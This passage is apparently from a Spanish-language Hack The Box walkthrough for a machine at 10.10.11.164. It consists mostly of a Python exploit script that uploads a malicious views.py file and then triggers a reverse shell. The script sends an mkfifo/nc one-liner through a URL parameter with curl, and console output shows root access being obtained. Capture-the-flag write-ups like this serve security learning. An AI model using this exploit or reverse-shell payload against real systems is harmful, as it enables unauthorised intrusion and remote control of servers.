 ```python

# upload file with malicious function
def request_POST(p):
    time.sleep(2)
    p.status('Getting reverse shell...')
    create_file()
    try:
        files = { 'file' : (file_path_name, open('views.py', 'rb'), 'text/x-python') }
        r = requests.post(target_url, files=files)
    except Exception as e:
        p.failure(" {} ocurred.".format(e))
    log.info('File upload')
    return p

# get reverse shell
def get_shell(p):
    time.sleep(2)
    log.info('Listen on PORT {} to receive the shell'.format(args.port))
    input('Press enter to continue')
    try:
        log.info('Inserting payload to reverse shell')
        payload = 'http://10.10.11.164/reverse?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+{}+{}+>/tmp/f'.format(args.ip, args.port)
        subprocess.run(shlex.split('/usr/bin/curl {}'.format(payload)), stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
    except Exception as e:
        p.failure(" {} ocurred.".format(e))
    p.success('Successful reverse shell')

if __name__ == '__main__':
    p = log.progress('Starting attack')
    get_shell(request_POST(p))
```

> Puedes descargar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tool_Opensource/reverseShell.py)
{: .prompt-info}

Ejecutamos el script `python3 exploit.py -ip <ip-address> -port <local_port>` nos ponemos en escucha por el puerto especificado y logramos entrar al contenedor como `root`:

```console
──────────────────────────────────────────────────────
❯ python3 exploit.py -ip 10.10.14.181 -port 4444
[+] Starting attack: Successful reverse shell
[*] File upload
[*] Listen on PORT 4444 to receive the shell
Press enter to continue
[*] Inserting payload to reverse shell
──────────────────────────────────────────────────────
❯ rlwrap nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.164.
Ncat: Connection from 10.10.11.164:45805.
/bin/sh: can't access tty; job control turned off
whoami
root
/app # 
```
